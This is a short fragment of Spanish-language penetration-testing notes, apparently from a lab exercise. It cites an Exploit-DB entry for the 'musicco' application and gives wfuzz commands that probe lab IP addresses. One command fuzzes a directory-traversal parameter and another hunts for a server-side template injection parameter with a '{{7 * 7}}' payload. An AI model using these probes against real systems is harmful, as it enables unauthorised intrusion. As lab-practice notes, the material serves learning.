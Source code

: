 exploit

https://www.exploit-db.com/exploits/45830

en PATH colocamos el directorio donde corre musicco

hacemos fuzzing web:

wfuzz -c --hc=404,500 --hl=30433 -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt 'http://192.168.42.199/playlist/?getAlbum&parent=../FUZZ&album=Efe' 

30.- Werkzeug httpd 2.3.4

vulnerable a SSTI

buscamos el parámetro vulnerable

wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/common.txt -u 'http://192.168.42.200:8080/?FUZZ={{7 * 7}}' --hh=18


















